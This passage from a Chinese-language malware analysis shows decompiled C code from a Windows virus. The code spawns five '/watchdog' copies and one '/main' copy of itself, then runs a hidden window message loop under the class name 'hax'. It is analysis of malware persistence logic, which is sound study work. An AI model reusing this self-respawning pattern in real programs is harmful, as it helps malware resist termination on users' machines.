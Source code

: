 代码继续执行的内容如下

```c
{
    v10 = (WCHAR *)LocalAlloc(0x40u, 0x4000u);
    GetModuleFileNameW(0, v10, 0x2000u);
    v11 = 5;
    do
    {
      ShellExecuteW(0, 0, v10, L"/watchdog", 0, 10);
      --v11;
    }
    while ( v11 );
    pExecInfo.cbSize = 60;
    pExecInfo.lpFile = v10;
    pExecInfo.lpParameters = L"/main";
    pExecInfo.fMask = 64;
    pExecInfo.hwnd = 0;
    pExecInfo.lpVerb = 0;
    pExecInfo.lpDirectory = 0;
    pExecInfo.hInstApp = 0;
    pExecInfo.nShow = 10;
    ShellExecuteExW(&pExecInfo);
    SetPriorityClass(pExecInfo.hProcess, 0x80u);
  }
```

创建了 5 个命令行参数为 `/watchdog` 的进程，和 1 个命令行参数为 `/main` 的进程。在病毒文件执行的时候可以看到这 6 个进程。

到此无参数部分分析完毕。

#### watchdog 部分分析

函数名是看门狗？

```c
if ( !lstrcmpW(v1[1], L"/watchdog") )
    {
      CreateThread(0, 0, sub_40114A, 0, 0, 0);
      pExecInfo.lpVerb = (LPCWSTR)48;
      pExecInfo.lpParameters = (LPCWSTR)sub_401000;
      pExecInfo.hIcon = (HANDLE)"hax";
      pExecInfo.lpFile = 0;
      memset(&pExecInfo.lpDirectory, 0, 28);
      pExecInfo.hProcess = 0;
      RegisterClassExA((const WNDCLASSEXA *)&pExecInfo.lpVerb);
      CreateWindowExA(0, "hax", 0, 0, 0, 0, 100, 100, 0, 0, 0, 0);
      while ( GetMessageW(&Msg, 0, 0, 0) > 0 )
      {
        TranslateMessage(&Msg);
        DispatchMessageW(&Msg);
      }
    }
```
